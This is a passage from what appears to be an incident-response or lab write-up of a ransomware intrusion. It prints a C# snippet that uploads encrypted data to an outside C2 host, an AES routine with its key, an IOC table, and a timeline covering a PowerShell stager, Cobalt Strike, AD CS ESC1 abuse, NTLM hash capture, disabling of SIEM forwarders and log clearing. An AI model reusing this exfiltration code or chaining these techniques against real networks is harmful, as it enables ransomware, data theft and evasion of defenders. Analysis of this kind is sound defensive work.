            webClient.Headers.Add("Content-Type", "application/octet-stream");
            webClient.UploadData("http://35.158.162.78:8080/upload", data);
        }
    }
```

For encryption, it uses AES in CBC mode with:
* **IV:** 9b4f2a7c1e3d8f5ba26e0cd43f7a1b8e 
* **Key:** 3f8a2c1d7b4e9f6a0c5d2e8b1f3a7c4ed1a3f50b6c9e2d4f8a1b7c3e5d9f2a6b

```csharp
private static byte[] EncryptBytes(byte[] data)
{
    byte[] result;
    using (Aes aes = Aes.Create())
    {
        aes.Key = Program.AesKey;
        aes.IV = Program.AesIV;
        aes.Mode = CipherMode.CBC;
        aes.Padding = PaddingMode.PKCS7;
//...[snip]...
```

And it creates notes leading to:
* `http://ransomhubn3snwif3ixzs7hdpsnpfiqzqyqbgzgkiodglqwrj7jk5cqd[.]onion`



### <span class="hl">IOCs</span>

| Type | Value | Description |
|------|-------|-------------|
| IP | 35.158.162.78 | C2 server - stager host, Cobalt Strike, exfiltration endpoint |
| IP | 3.75.76.243 | secondary payload host - Missme.exe download |
| IP | 3.77.33.191 | nslookup target in ClickFix cmd |
| File | beacon.bin | MD5: 7d96a4885b5331cd61479759ff2ae1eb - Cobalt Strike beacon DLL |
| File | Missme.exe | RansomHub payload, Trojan:MSIL/Lazy.BAC!MTB, C:\Windows\Temp\ |
| File | QA.exe | SharpHound renamed, C:\Users\omar.hassan\Q2_review\ |
| File | template_audit.log | AD CS template dump via certutil |
| File | 2026_Payroll_Adjustments.zip | CVE-2025-24071 delivery archive |
| File |2026_Payroll_Adjustments.library-ms` | malicious .library-ms for NTLM capture |
| URL | http://35.158.162.78/a | PowerShell stager |
| URL | https://35.158.162.78:443/updates | Cobalt Strike C2 beacon endpoint |
| URL | http://35.158.162.78:8080/upload | ransomware exfiltration endpoint |
| Onion | ransomhubn3snwif3ixzs7hdpsnpfiqzqyqbgzgkiodglqwrj7jk5cqd[.]onion | RansomHub payment portal |
| Registry | HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Update | Cobalt Strike persistence |
| Cert Template | Maromalix-UserAuth | ESC1 vulnerable template |
| Account | omar.hassan | initial compromised account, WKSTN-01 |
| Account | khaled.ibrahim | performed ESC1 certificate request |
| Account | mohamed.elfeky | impersonated via ESC1 SAN spoofing |
| Account | nour.khalil | NTLM hash captured via CVE-2025-24071 |
| Account | ahmed.farouk | NTLM hash captured via CVE-2025-24071 |
| Key | AES key: 3f8a2c1d7b4e9f6a0c5d2e8b1f3a7c4ed1a3f50b6c9e2d4f8a1b7c3e5d9f2a6b | ransomware encryption key |
| Key | AES IV: 9b4f2a7c1e3d8f5ba26e0cd43f7a1b8e | ransomware encryption IV |

### <span class="hl">Attack Timeline</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef access fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef persist fill:#f3e5f5,stroke:#6a1b9a,stroke-width:2px,color:#000;
    classDef cred fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px,color:#000;
    classDef lateral fill:#fff3e0,stroke:#e65100,stroke-width:2px,color:#000;
    classDef exfil fill:#fce4ec,stroke:#880e4f,stroke-width:2px,color:#000;
    classDef ransom fill:#b71c1c,stroke:#7f0000,stroke-width:2px,color:#fff;

    A([omar.hassan - WKSTN-01]):::default --> B[14:28:43 - ClickFix cmd one-liner<br/>nslookup obfuscated with carets]:::access
    B --> C[14:28:43 - PowerShell IEX<br/>downloads /a from 35.158.162.78]:::exec
    C --> D[XOR-decoded shellcode<br/>VirtualAlloc RWX + execute<br/>Cobalt Strike beacon - MD5: 7d96a4885b5331cd]:::exec
    D --> E[Beacon to 35.158.162.78:443<br/>every 5s - Host: fonts.googleapis.com]:::exec

    subgraph PostExploit [Post-Exploitation 18:49-19:20]
        E --> F[18:49 - Run key persistence<br/>HKCU\Run\Update]:::persist
        F --> G[18:51 - QA.exe = SharpHound --collectionmethods All<br/>certutil -v -template > template_audit.log<br/>Certify.exe AD CS enum]:::cred
        G --> H[19:20 - 2026_Payroll_Adjustments.zip<br/>dropped to \\DC01\Finance\ and \\DC01\IT-Helpdesk\]:::cred
        H --> I[19:26 - .library-ms parsed by Explorer<br/>CVE-2025-24071 NTLM hash capture<br/>nour.khalil + omar.hassan + ahmed.farouk]:::cred
        I --> J[19:46 - ESC1 cert request as mohamed.elfeky<br/>19:47 - PKINIT TGT obtained]:::cred
    end

    subgraph Lateral [Lateral Movement]
        J --> K[19:51 - smbexec.py to 4 machines<br/>tasklist sc query]:::lateral
        K --> L[19:52 - sc stop filebeat winlogbeat splunkforwarder<br/>SIEM blind 19:52-20:02]:::lateral
        L --> M[20:02 - wevtutil cl Sysmon Security PowerShell System<br/>20:03 - forwarders restarted]:::lateral
    end

    subgraph Ransom [Ransomware]
        M --> N[19:54 - Missme.exe from 3.75.76.243:4422<br/>quarantined on WKSTN-03 by Defender]:::ransom
        N --> O[AES-CBC encryption - .94ccaa extension<br/>C:\Users C:\Shares \\FileServer\*]:::ransom
        O --> P[Exfil to 35.158.162.78:8080/upload<br/>R3ADM3 note - ransomhubn3snwif3ix...onion]:::ransom
    end


